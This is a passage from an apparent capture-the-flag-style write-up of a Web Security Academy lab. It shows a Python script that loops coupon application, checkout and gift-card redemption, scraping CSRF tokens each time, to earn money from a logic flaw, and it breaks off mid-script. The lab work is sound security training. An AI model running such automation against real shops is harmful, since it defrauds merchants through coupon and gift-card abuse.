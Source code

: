 Anyways, this code is redeemable within the 'My Account' page, under the gift card section. So each time I do this, I gain $3. To exploit this server, I created a Python script to automate the entire process!

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a8a00dd031722d08106a2300038002e'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
cookies = {
	'session':'Y2AczSp5KZECDUeSaAjNzPpgxItus1Se'
}
s = requests.Session()

while True:
	## Add Product to Cart
	cart_data = {
		'productId':'2',
		'redir':'CART',
		'quantity':'1'
	}

	add_r = s.post(url + '/cart', data=cart_data,cookies=cookies,proxies=proxies,verify=False)

	## Grab CSRF token 
	r = s.get(url + '/cart',cookies=cookies,proxies=proxies,verify=False)
	match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
	cart_csrf_token = match[1]

	## Apply Coupon
	coupon_data = {
		'csrf':cart_csrf_token,
		'coupon':'SIGNUP30'
	}
	coupon_r = s.post(url + '/cart/coupon', data=coupon_data,cookies=cookies,proxies=proxies,verify=False)

	## Grab CSRF
	r = s.get(url + '/cart',cookies=cookies,proxies=proxies,verify=False)
	match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
	checkout_csrf_token = match[1]

	## Checkout 
	checkout_data = {
		'csrf':checkout_csrf_token,
	}
	checkout_r = s.post(url + '/cart/checkout',data=checkout_data,cookies=cookies,proxies=proxies,verify=False)
	pattern = re.compile(r'<td>([A-Za-z0-9]+)</td>')
	match = pattern.findall(checkout_r.text)
	if match:
        ## Apply Gift Card
		code = match[1]
		r = s.get(url + '/my-account',cookies=cookies,proxies=proxies,verify=False)
		match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
		gift_csrf = match[1]
		gift_data = {
			'csrf':gift_csrf,
			'gift-card':code
```